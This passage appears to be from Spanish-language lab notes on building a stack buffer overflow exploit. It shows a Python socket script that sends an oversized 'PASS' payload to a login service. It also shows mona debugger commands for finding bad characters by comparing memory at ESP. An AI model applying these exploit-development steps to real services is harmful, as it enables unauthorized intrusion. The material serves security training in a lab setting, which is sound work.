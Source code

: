 ```bash

def exploit():
	
	# Create a socket.
	# Esto sirve para especificar que se entrablará 
	# una conexión TCP.
	s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

	# Connect to the server.
	# Sirve para establecer esa conexión TCP,
	# se especifica la IP y el puerto.
	s.connect((ip_add, port))

	# Receive the banner.
	# Sirve para verificar que se estableció la conexión
	# correctamente.
	# Específicamente se está recibiendo una cadena de 
	# caracteres de la cabecera de repuesta del servidor
	banner = s.recv(1024) # 1024 Bytes que se recibirán

	# Send data.
	# Ahora se enviarán los datos para loguearse en el 
	# servidor, es decir, el "USER" y "PASS".
	s.send(b"USER bof" + b"\r\n") # "\r\n" representa el ENTER.
	s.send(b"PASS " + payload + b"\r\n")
	s.close() # Cerrará la conexión TCP

if __name__ == '__main__':
	exploit()
```

La idea es que el bytearray sobrescriba el ESP para que represente los caracteres en la memoria y así identificar los caracteres que no se muestran para clasificarlos como badchars y eliminarlos del bytearray.

![Untitled](../assets/Buffer-Overflow/Lab1/Generar-Bytearrays-Deteccion-Badchars/Untitled 4.png)

Se puede ver que después del “09”, no aparece el “0a” el cual es el que le sigue al “09” por lo que este debe eliminarse del bytearray.

Para verificar esto, se puede usar el siguiente comando de mona para comparar lo que se encuentra en la dirección en memoria del ESP y el archivo “bytearray.bin” para encontrar badchars.

```bash
!mona compare -a 0x<direcciónEnMemDelStack> 
-f <path/to/bytearray.bin>

-a # Indica la dirección en memoria del stack, es decir, 
# el valor del ESP
-f # Indica el path al bytearray.bin

# Eje:
	!mona compare -a 0x0272A128 
	-f C:\Users\bryan\Desktop\Analysis\bytearray.bin
```
